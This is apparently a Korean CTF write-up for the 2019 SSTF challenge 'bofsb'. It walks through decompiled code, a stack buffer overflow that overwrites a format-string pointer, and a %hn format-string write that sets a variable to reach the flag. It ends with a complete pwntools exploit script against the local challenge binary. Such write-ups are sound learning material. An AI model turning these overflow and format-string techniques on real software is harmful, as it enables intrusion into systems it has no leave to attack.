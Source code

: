 ```yaml
---
title: "2019 SSTF bofsb"
date: 2020-1-6
ctf: SSTF CTF
layout: post
---
```


32비트 바이너리다. 메인은 1,2 입력받아서 각각 format에 Black, White 저장해준다. 그리고 name 주소를 magic code라면서 준다. 이름을 입력하는 곳에서는 bof가 터진다. 그리고  `printf(format);` 에서는 FSB가 터진다. 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+0h] [ebp-50h]
  int name; // [esp+4h] [ebp-4Ch]
  char *format; // [esp+44h] [ebp-Ch]
  unsigned int v7; // [esp+48h] [ebp-8h]

  v7 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  puts("Welcome to Othello game!");
  puts("Please select your color.");
  puts(" 1: Black");
  puts(" 2: White");
  printf(" > ");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 1 )
  {
    format = "Black";
  }
  else
  {
    if ( v4 != 2 )
    {
      puts("You selected a wrong number.");
      exit(0);
    }
    format = "White";
  }
  printf("okay, please remember this magic code: %p\n", &name);
  printf("Please enter your name: ");
  __isoc99_scanf("%s", &name);
  printf("%s, your color is ", &name);
  printf(format);
  if ( playOthello(v4) )
  {
    puts("Congrats, You Win!!");
    showFlag();
  }
  else
  {
    puts("Sorry, you lose.");
  }
  return 0;
}
```

`playOthello` 함수는 v4의 값이 33이면 `showFlag` 로 가서 flag 파일을 읽어서 출력해준다. 그러면 우선 v4의 값은 1 아니면 2인데 이를 바꿔주면 된다. 

```c
_BOOL4 __cdecl playOthello(int a1)
{
  printf("\n\nLet the games Begin... Your card is %x\n", a1);
  return a1 == 33;
}
```

name은 ebp-0x4C에 있고 format은 0xC에 존재하므로 name의 크기는 0x40이다. 여기서 name을 입력받을 때 0x40 이후 4바이트를 입력하면 format을 덮을 수 있다.

name 입력할 때 format을 v5(&name)으로 덮어버린다. 그러면 `printf(format) -> printf(name)`이 될것이다. 

scanf는 공백으로 입력 값을 구분하므로 공백 없이 값을 넣어줘야한다. 

payload : 'A'*4 + "%p%p%p%p%p" + "A" * (0x40-len(전에넣었던만큼)) + p32(name)

이런식으로 넣어서 offset을 구해줄 수 있다. 그러면 0x41414141이 2번째에 나온다.

이제 AAAA 대신 v4를 넣어주고 29만큼 채운 후 `%2$hn` 으로 v4주소에 앞서 출력한 33바이트만큼을 넣어주고 64바이트만큼 채운 다음에 &name을 넣어주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'i386'
# context.log_level = 'debug'
e = ELF('./bofsb')
p = process('./bofsb')

p.sendlineafter('>','1')
p.recvuntil(': ')
name = int(p.recvline(),16)
v4 = name - 4
log.info('name addr : ' + hex(name))
log.info('v4 : ' + hex(v4))
'''
payload = 'A'*4
payload += '%p%p%p%p%p%p'
payload += 'A'*(0x40-len(payload))
payload += p32(name)
'''
payload = p32(v4)
payload += '%{}c'.format(33-4)
payload += '%{}$hn'.format(2)
payload += 'B'*(64-len(payload))
payload += p32(name)
p.sendlineafter(':',payload)

p.interactive()
```





